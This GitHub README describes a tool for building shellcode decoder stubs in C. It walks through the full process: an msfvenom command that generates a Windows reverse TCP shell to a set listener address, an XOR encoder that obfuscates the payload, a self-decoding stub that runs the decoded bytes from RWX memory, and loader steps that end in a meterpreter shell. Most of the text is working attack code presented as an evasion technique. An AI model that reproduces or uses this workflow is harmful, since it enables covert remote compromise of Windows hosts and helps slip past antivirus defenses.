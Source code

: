 # easy-decoderstub
An easy way to create decoder stubs in C


I wanted to have a simple method to avoid having to write complicated encodings/decodings in assembler to write my own decoder stub. So I embed the encoded shellcode in the text segment of a C program that is PIC. After extracting the shellcode of the PIC, it can be executed in a loader. 

> Since the shellcode changes itself, the memory must be RWX.


# How to use

> I use a C-Encoder, you can use what you like most. 

* Create your shellcode.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.11 LPORT=443 -f c
```

* Copy shellcode into encoder-xor.c, compile and run it.

```c
#include <windows.h>
#include <stdio.h>


int main () 
{
    char key[] = "supersecret";
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
	...

    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    for (int i = 0; i < sizeof buf; i++)
    {
        printf("\\x%x", (unsigned char)buf[i]);
    }
}
```

```
x86_64-w64-mingw32-gcc encoder-xor.c -o encoder-xor.exe
```

```
.\encoder-xor.exe
\x8f\x3d\xf3\x81\x82\x9b\xa5\...
```

* Copy encoded shellcode in decoderstub.c, compile it. 

> Here you can code fancy stuff and have not to write it in assembly.

```c
#include "windows.h"

// Contains shellcode of loader
char buf[]  __attribute__((section(".text"))) = "\x8f\x3d\xf3\x81...";
char key[]  __attribute__((section(".text"))) = "supersecret";
void go() 
{
    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    (*(void(*)())(&buf))();
}
```

```
./compile.sh
```

* Compile and run the loader to get the meterpreter shell.

```
x86_64-w64-mingw32-gcc loader.c -o loeader.exe
```

```
.\loader.exe .\decoderstub.bin
```

![alt text](screenshot.png)


